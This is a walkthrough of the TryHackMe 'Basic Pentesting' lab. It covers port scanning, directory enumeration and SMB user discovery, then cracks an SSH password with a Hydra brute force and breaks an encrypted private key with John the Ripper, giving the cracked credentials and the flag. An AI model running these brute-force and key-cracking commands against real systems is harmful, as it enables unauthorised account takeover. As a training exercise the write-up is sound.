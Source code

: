 **Room:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

---

##  Prompt

> In these set of tasks you'll learn the following:
>brute forcing 
>hash cracking 
>service enumeration
>Linux Enumeration
>The main goal here is to learn as much as possible. Make sure you are connected to our network using your OpenVPN configuration file.

>Credits to Josiah Pierce from Vulnhub.

---
## Walkthrough

We are started with the IP: 10.201.98.238

Used: 
```bash
nmap -sC -sV 10.201.98.238
```
Then I have found these open ports:
```text
22   → ssh        → OpenSSH
80   → http       → Apache
139  → netbios-ssn → Samba
445  → netbios-ssn → Samba
8009 → ajp13      → Apache JServ
8080 → http       → Apache Tomcat
```
---
On 10.201.98.239, I found the following comment in the page source:
```php-template
<!-- Check our dev note section if you need to know what to work on. -->
```
Which, made me look through 10.201.98.239/dev.
Then I have found
```text
Apache/2.4.41 (Ubuntu) Server at 10.201.98.239 Port 80
```
While, I still didn't have any information, I used gobuster if there any open domain:
```bash
gobuster dir --url http://10.201.98.239/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Results: /development and /server-status.

From /development, I found an “Index of /development” page with two files: dev.txt and j.txt.

--> dev.txt contained:
```vbnet
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

--> j.txt contained:
```vbnet 
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
---
Since we didn't yet have valid credentials, I used enum4linux for reconnaissance:
```bash
python3 enum4linux-ng.py -A 10.201.98.238
```
From the output, I identified two usernames: kay and jan
---
Knowing the usernames, I tried brute-forcing SSH with Hydra:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.201.98.239
```
Result: The password for jan was armondo.
---
After logging in as jan, I noticed his account was linked to kay.
Exploring kay’s account didn’t show much at first, so I ran LinPeas, which highlighted a hidden directory.
```swift
/home/kay/.ssh/
```
Inside, I found:
--->authorized_keys
--->id_rsa
--->id_rsa.pub
The id_rsa file contained an encrypted SSH private key.
---
To crack it, I first converted it for John the Ripper using ssh2john.py:
```bash
/opt/john/ssh2john.py kay_rsa > forjohn.txt
```
```bash
$sshng$1$16$6ABA7DE35CDB65070B92C1F760E2FE75$2352$22835bfc9d2ad...
```
Then ran the dictionary attack of John with the rockyou wordlist:
```bash
/opt/john/john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
John cracked the key and revealed the passphrase: beeswax.
---
Using the key and passphrase, I logged in as kay.
Inside, I found a file called pass.bak, which contained the final flag:
```text
heresareallystrongpasswordthatfollowsthepasswordpolicy
```
Then I have finished the room.















